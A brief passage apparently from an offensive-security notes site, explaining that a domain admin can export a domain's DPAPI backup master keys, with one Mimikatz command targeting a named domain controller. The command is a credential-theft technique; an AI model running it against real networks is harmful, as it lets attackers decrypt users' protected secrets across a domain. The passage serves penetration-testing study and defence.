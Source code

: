 ![](<../../.gitbook/assets/image (326).png>)

### Extract all backup Master Keys with Domain Admin

A domain admin may obtain the backup dpapi master keys that can be used to decrypt the encrypted keys:

```
lsadump::backupkeys /system:dc01.offense.local /export
```

![](<../../.gitbook/assets/image (327).png>)
